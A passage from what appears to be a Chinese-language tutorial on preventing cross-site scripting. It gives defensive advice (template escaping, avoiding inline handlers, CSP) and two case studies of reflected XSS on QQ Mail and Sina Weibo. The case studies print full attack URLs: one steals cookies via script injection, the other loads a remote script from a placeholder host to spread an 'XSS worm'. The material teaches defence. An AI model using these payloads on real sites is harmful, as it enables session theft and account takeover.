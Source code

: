- **利用模板引擎** 开启模板引擎自带的 HTML 转义功能。例如： 在 ejs 中，尽量使用 `<%= data %>` 而不是 `<%- data %>`； 在 doT.js 中，尽量使用 `{{! data }` 而不是 `{{= data }`； 在 FreeMarker 中，确保引擎版本高于 2.3.24，并且选择正确的 `freemarker.core.OutputFormat`。
- **避免内联事件** 尽量不要使用 `onLoad="onload('{{data}}')"`、`onClick="go('{{action}}')"` 这种拼接内联事件的写法。在 JavaScript 中通过 `.addEventlistener()` 事件绑定会更安全。
- **避免拼接 HTML** 前端采用拼接 HTML 的方法比较危险，如果框架允许，使用 `createElement`、`setAttribute` 之类的方法实现。或者采用比较成熟的渲染框架，如 Vue/React 等。
- **时刻保持警惕** 在插入位置为 DOM 属性、链接等位置时，要打起精神，严加防范。
- **增加攻击难度，降低攻击后果** 通过 CSP、输入长度配置、接口安全措施等方法，增加攻击的难度，降低攻击的后果。
- **主动检测和发现** 可使用 XSS 攻击字符串和自动扫描工具寻找潜在的 XSS 漏洞。

## XSS 攻击案例

#### QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 `uin`、`domain` 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

```html
<script>
getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```

浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

#### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

```
http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>
```

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。

## 扩展阅读：Automatic Context-Aware Escaping

上文我们说到：

1. 合适的 HTML 转义可以有效避免 XSS 漏洞。
2. 完善的转义库需要针对上下文制定多种规则，例如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等等。
3. 业务 RD 需要根据每个插入点所处的上下文，选取不同的转义规则。
